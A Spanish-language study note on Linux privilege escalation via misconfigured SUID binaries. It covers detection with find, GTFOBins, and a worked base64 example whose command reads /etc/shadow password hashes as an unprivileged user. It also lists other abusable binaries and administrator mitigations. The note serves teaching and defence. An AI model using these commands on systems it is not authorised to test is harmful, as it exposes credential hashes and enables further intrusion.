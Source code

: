 ```yaml
---
Tema: "[[Escalada de Privilegios]]"
---
```


# 🔐 Escalada de Privilegios mediante Binarios SUID

> [!info] Objetivo de este apunte
> Aprender a identificar y explotar binarios con permisos SUID para elevar privilegios en sistemas Linux comprometidos.

---

## 📋 Tabla de Contenidos
- [¿Qué son los binarios SUID?](#qué-son-los-binarios-suid)
- [Detección de binarios SUID](#detección-de-binarios-suid)
- [Explotación con GTFOBins](#explotación-con-gtfobins)
- [Ejemplo práctico: base64](#ejemplo-práctico-base64)
- [Consideraciones de seguridad](#consideraciones-de-seguridad)

---

## ¿Qué son los binarios SUID?

> [!note] Recordatorio
> Como se detalla en [[SUID y SGID]], el bit SUID permite a los usuarios ejecutar binarios con los permisos del propietario del archivo (normalmente root), en lugar de con los permisos del usuario que lo ejecuta.

```mermaid
graph LR
    A[Usuario normal] -->|Ejecuta| B[Binario con SUID]
    B -->|Se ejecuta con permisos de| C[Propietario del binario]
    C -->|Normalmente| D[root]
    D -->|Permite| E[Acciones privilegiadas]
```

---

## Detección de binarios SUID

> [!tip] Comando esencial
> El siguiente comando es fundamental para cualquier evaluación de seguridad o intento de escalada de privilegios:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Este comando:
- Busca en todo el sistema (`/`)
- Archivos con permiso SUID (`-perm -4000`)
- Solo archivos regulares (`-type f`)
- Oculta errores de permisos denegados (`2>/dev/null`)

> [!example] Salida típica
> ```
> /usr/bin/sudo
> /usr/bin/passwd
> /usr/bin/chfn
> /usr/bin/newgrp
> /usr/bin/gpasswd
> /usr/bin/chsh
> /usr/bin/pkexec
> /usr/bin/umount
> /usr/bin/mount
> /usr/bin/su
> /usr/bin/base64     # <-- Objetivo potencial inusual!
> /usr/lib/dbus-1.0/dbus-daemon-launch-helper
> /usr/lib/openssh/ssh-keysign
> /usr/lib/eject/dmcrypt-get-device
> ```

---

## Explotación con GTFOBins

> [!important]
> [[GTFOBins]] es un recurso esencial que lista binarios Unix que pueden ser abusados para eludir restricciones de seguridad en sistemas mal configurados.

### ¿Qué es GTFOBins?

GTFOBins es un repositorio que documenta cómo los binarios comunes de Unix pueden ser explotados para:
- Escapar de shells restringidas
- Escalar privilegios
- Transferir archivos
- Generar shells inversas
- Realizar otras tareas post-explotación

> [!warning] No son vulnerabilidades
> Los binarios listados en GTFOBins no son vulnerables per se. El problema está en la configuración incorrecta de permisos que permite abusar de su funcionalidad legítima.

---

## Ejemplo práctico: base64

### 1. Verificación de permisos actuales

Primero, verificamos los permisos actuales del binario:

```bash
which base64 | xargs ls -l
```

Salida típica:
```
-rwxr-xr-x 1 root root 35064 Aug 11 11:33 /usr/bin/base64
```

### 2. Simulación (solo para laboratorios)

> [!danger] ¡Solo para entornos controlados!
> Nunca modifiques permisos de binarios del sistema en entornos de producción.

Para fines de prueba, podríamos establecer el bit SUID:

```bash
chmod u+s $(which base64)
```

### 3. Explotación del binario SUID

Una vez que `base64` tiene el bit SUID (ya sea porque lo configuramos para pruebas o porque lo encontramos así en un sistema comprometido), podemos abusar de él para leer archivos privilegiados:

```bash
# Intento normal de leer /etc/shadow (fallará para usuarios normales)
cat /etc/shadow
# Resultado: Permission denied

# Explotando el bit SUID de base64
base64 /etc/shadow | base64 -d
# Resultado: Contenido del archivo shadow
```

#### ¿Cómo funciona?

```mermaid
sequenceDiagram
    participant Usuario as Usuario no privilegiado
    participant Base64 as Binario base64 (SUID)
    participant Shadow as /etc/shadow
    
    Usuario->>Base64: Ejecuta base64 /etc/shadow
    Base64->>Shadow: Lee con privilegios de root
    Shadow->>Base64: Devuelve contenido
    Base64->>Usuario: Muestra contenido codificado
    Usuario->>Usuario: Decodifica con base64 -d
```

> [!success] Resultado
> El usuario no privilegiado ahora puede leer archivos protegidos como `/etc/shadow` que contiene los hashes de contraseñas, lo que podría permitir ataques posteriores.

---

## Consideraciones de seguridad

### Para administradores de sistemas:

> [!warning] Medidas preventivas
> - Auditar regularmente los binarios con SUID: `find / -perm -4000 -type f 2>/dev/null`
> - Eliminar el bit SUID de binarios que no lo requieran: `chmod u-s /ruta/al/binario`
> - Aplicar el principio de mínimo privilegio
> - Considerar herramientas como [SUDO](https://www.sudo.ws/) para control de acceso más granular

### Para pentesting:

> [!tip] Estrategia de explotación
> 1. Identificar todos los binarios SUID
> 2. Consultar GTFOBins para cada binario encontrado
> 3. Priorizar binarios inusuales (como `base64`, que normalmente no tiene SUID)
> 4. Documentar cada vector encontrado

---

## 🔍 Herramientas relacionadas

| Herramienta | Descripción | Enlace |
|-------------|-------------|--------|
| GTFOBins | Repositorio de técnicas de abuso de binarios Unix | [gtfobins.github.io](https://gtfobins.github.io/) |
| PEASS-ng | Suite de scripts para enumeración y escalada de privilegios | [github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng) |
| LinPEAS | Herramienta para buscar posibles rutas de escalada de privilegios | Incluido en PEASS-ng |
| LSE | Linux Smart Enumeration | [github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) |

---

> [!example] Otros binarios comúnmente explotables
> - `cp`: Copiar archivos sensibles
> - `nano`/`vim`: Editar archivos protegidos
> - `find`: Ejecutar comandos como root
> - `python`/`perl`/`ruby`: Ejecutar código con privilegios
> - `tar`: Extraer o crear archivos en ubicaciones protegidas

---

## Referencias
- [[SUID y SGID]] - Explicación detallada de estos permisos especiales
- [[GTFOBins]] - Repositorio de técnicas de abuso
- [[base64]] - Documentación sobre la herramienta base64
- [[apuntes/herramientas/herramientas]] - Más herramientas de hacking